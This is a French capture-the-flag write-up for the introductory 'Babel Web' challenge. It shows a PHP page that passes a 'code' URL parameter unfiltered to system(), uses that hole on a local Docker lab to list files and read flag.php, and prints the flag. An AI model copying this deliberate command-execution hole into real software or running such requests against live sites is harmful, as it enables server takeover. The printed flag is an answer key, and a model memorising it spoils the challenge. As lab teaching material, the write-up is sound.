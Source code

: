## Épreuves

### Difficulté: Introduction

### Challenge: Babel Web

#### Problème

On vous demande d’auditer ce site en cours de construction à la recherche d’un flag.

#### Résolution

Pour résoudre ce challenge, suivez les étapes suivantes :

1. **Téléchargement et exécution des fichiers** :
   Après avoir téléchargé tous les fichiers nécessaires, exécutez la commande `docker-compose up` pour démarrer le service Docker. Ensuite, ouvrez le site web à l'adresse `http://localhost:8000/`.

2. **Inspection initiale du site** :
   Lorsque vous visitez le site, vous voyez une page simple en HTML :
    ```html
   <html>
       <head>
           <title>Bienvenue à Babel Web!</title>
       </head>    
       <body>
           <h1>Bienvenue à Babel Web!</h1>
           La page est en cours de développement, merci de revenir plus tard.
           <!-- <a href="?source=1">source</a> -->
       </body>
   </html>
    ```
    Le commentaire HTML <!-- <a href="?source=1">source</a> --> suggère qu'il pourrait y avoir un moyen d'afficher le code source en ajoutant ?source=1 à l'URL.



3. **Accès au code source PHP** :
    En accédant à : `http://localhost:8000/?source=1`, vous pouvez voir le code source PHP de la page :

    ```php
    <?php
        if (isset($_GET['source'])) {
            @show_source(__FILE__);
        }  else if(isset($_GET['code'])) {
            print("<pre>");
            @system($_GET['code']);
            print("<pre>");
        } else {
    ?>
    <html>
        <head>
            <title>Bienvenue à Babel Web!</title>
        </head>    
        <body>
            <h1>Bienvenue à Babel Web!</h1>
            La page est en cours de développement, merci de revenir plus tard.
            <!-- <a href="?source=1">source</a> -->
        </body>
    </html>
    <?php
        }
    ?>
    ```

    Le code PHP révèle deux fonctionnalités importantes :

    **.** Si le paramètre source est défini dans l'URL, le code source du fichier actuel est affiché.
    **.** Si le paramètre code est défini dans l'URL, la commande spécifiée est exécutée sur le serveur.
4. **Exécution de commandes sur le serveur**:

    En exploitant la fonctionnalité de la commande `code`, vous pouvez exécuter des commandes shell. Par exemple, en accédant à `http://localhost:8000/?code=ls`, vous verrez la liste des fichiers dans le répertoire :
    ````
        flag.php
        index.php
    ````
5. **Lecture du contenu du fichier flag** :
   
    Pour afficher le contenu du fichier flag.php, accédez à `http://localhost:8000/?code=cat flag.php` Cela affiche le contenu suivant :

    ```php
    <pre><?php
        $flag = "FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}";
    <pre>
    ```

#### Solution

Le flag est : ``FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}``
